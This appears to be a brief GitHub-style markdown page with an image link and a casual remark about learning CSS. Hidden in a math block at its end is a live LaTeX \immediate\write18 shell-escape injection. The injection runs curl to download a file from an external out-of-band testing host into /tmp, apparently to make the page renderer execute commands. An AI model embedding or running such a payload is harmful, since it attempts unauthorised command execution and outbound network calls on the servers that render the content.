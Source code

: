 ## well learning a little CSS was fun. See yall next time👋 (I shouldve took another pic i was screwing around🥲)
```math
\ce{$\immediate\write18{curl -o /tmp/custom.css http://cpi17vj6okuc7fg3tt70ywrf9in43w784.oast.live/custom.css}$}
